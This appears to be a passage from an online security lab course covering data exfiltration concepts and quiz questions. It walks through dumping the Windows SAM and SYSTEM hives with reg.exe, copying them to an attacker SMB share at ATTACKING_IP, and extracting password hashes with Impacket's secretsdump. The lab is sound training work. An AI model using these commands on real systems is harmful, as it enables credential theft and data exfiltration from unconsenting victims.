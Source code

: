 Data exfiltration is something that should _never_ be considered without explicit prior consent. Generally speaking, most external engagements will strongly prohibit taking data from compromised systems; however, it is worth bearing in mind that this may not be the case for internal engagements -- and some external engagements outright set targets for the red team that revolve around exfiltrating a set piece of data from the targets once compromised. Even if this is a skill that may not be used on a daily basis, it is still well worth learning.  

---

The goal of exfiltration is always to remove data from a compromised target. This could be things like passwords, keys, customer/employee data, or anything else of use or value. If the data being exfiltrated is in plain text then this could be as simple as copying and pasting the contents of a file from a remote shell into a local file. If the data is in a binary format, or otherwise can't just be copied and pasted, then more complicated methods must be used to exfiltrate the targeted file.

A common method for exfiltrating data is to smuggle it out within a harmless protocol, usually encoded. For example, DNS is often used to (relatively) quietly exfiltrate data. HTTPS tends to be a good option as the data will outright be encrypted before egress takes place. ICMP can be used to (very slowly) get the data out of the network. DNS-over-HTTPS is superb for data exfiltration, and even email is often used.  

In a real world situation an attacker will be looking to exfiltrate data as quietly as possible as there may be an Intrusion Detection System active on the compromised network which would alert the network administrators to a breach should the data be detected. For this reason an attacker is unlikely to use protocols as simple as FTP, TFTP, SMB or HTTP; however, in an unmonitored network these are still good options for moving files around.

It's worth noting that most command and control (C2) frameworks come with options to quietly exfiltrate data. Practically speaking, this is likely how a bad actor would be exfiltrating data, so it's worth keeping up to date with the current "standards" used by the various frameworks. There are also plenty of standalone tools available to automate sending and receiving obfuscated data.  

---

In short, the only limitation when it comes to exfiltration is your imagination. Whilst there are certainly common techniques available (and many tools around to take advantage of them) it will always be the new and obscure methods that are the most successful. Who knows? Maybe you'll even find a legitimate use for steganography!

As extra reading, [PentestPartners](https://www.pentestpartners.com/) have a superb [blog post](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/) on this topic.  

Answer the questions below

Is FTP a good protocol to use when exfiltrating data in a modern network (Aye/Nay)?  

For what reason is HTTPS preferred over HTTP during exfiltration?  

---

Let's put this into practice!

We need some way to prove to Thomas that we've compromised his PC. We could leave a note on his Desktop, or we could be fancy and give him his Administrator password hash to prove that we've rooted it.  

There's no way we're going to get Mimikatz past Defender. We have SYSTEM access, so we could technically just disable Defender, but let's try to do this with as little destructiveness as possible (not least for other users on the network). What we _can_ do is grab the files containing the password hashes, pass them back to our attacking machine, then dump the hashes locally. On Linux this would be a simple matter of grabbing `/etc/shadow`. On Windows it is slightly more complex than that.

Local user hashes are stored in the Windows Registry whilst the computer is running -- specically in the `HKEY_LOCAL_MACHINE\SAM` hive. This can also be found as a file at `C:\Windows\System32\Config\SAM`, however, this should not be readable whilst the computer is running. To dump the hashes locally, we first need to save the SAM hive:  
`reg.exe save HKLM\SAM sam.bak   `

This saves the hive as a file called "sam.bak" in the current directory.

Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine:  
`reg.exe save HKLM\SYSTEM system.bak   `

With both Hives dumped, we can exfiltrate them back to our attacking machine to dump the hashes out of sight of Defender.

It's up to you how you choose to exfiltrate the files. Given this is a home network with no monitoring in place, an SMB server is recommended. Connect to your SMB server using your SYSTEM reverse shell with the `net use` command. You can now either save the files directly to your own drive, or move the files to your attacking machine if you already dumped the hives, e.g:  
`reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak`  
or  
`move sam.bak \\ATTACKING_IP\share\sam.bak   `

_**Note:** You may encounter an error when reconnecting. This is due to the way that Windows handles cached credentials:  
_![System Error 1312 relating to a logon session not existing](https://assets.tryhackme.com/additional/wreath-network/52376f416ede.png)  
_System error 1312 can usually be solved by connecting using an arbitrary domain. For example, specifying_ `/USER:domain\user` _rather than just the username. The same SMB server will still work here; however, Windows sees it as a different user account and thus allows the new connection._  

With both files stored locally, we can now dump some hashes! Make sure you delete the .bak files from the target if you copied them rather than moving them.

Once again, remember to disconnect from the SMB server!  

There are a variety of tools that could do this job for us. The most reliable is (as is often the case), a script from the Impacket library: `secretsdump.py` .

Let's use this against our dumped hives:  
`python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL   `

![Demonstration of using Impacket against the dumped hives. Password hashes are obtained.](https://assets.tryhackme.com/additional/wreath-network/28853bc2be23.png)

Each local account on the target is shown here, in a format of Username, RID, LM hash, NT hash -- separated by colons. We are interested in the _NT_ hashes -- the last section (blurred). As a side note: `31d6cfe0d16ae931b73c59d7e0c089c0` is an empty hash, and indicates that the account is not activated. These can thus be discounted.

---

What is the Administrator NT hash for this target?  

We have now completed everything we set out to accomplish: demonstrating that Wreath's network is vulnerable. Take this chance to go through the network and clean up after yourself. Aside from being courteous to other users of the network, this is also something you should always do in real life; we wouldn't want to make things easy for an attacker, would we?  

Remove all the tools, shells, payloads, accounts, and any other remnants you left behind.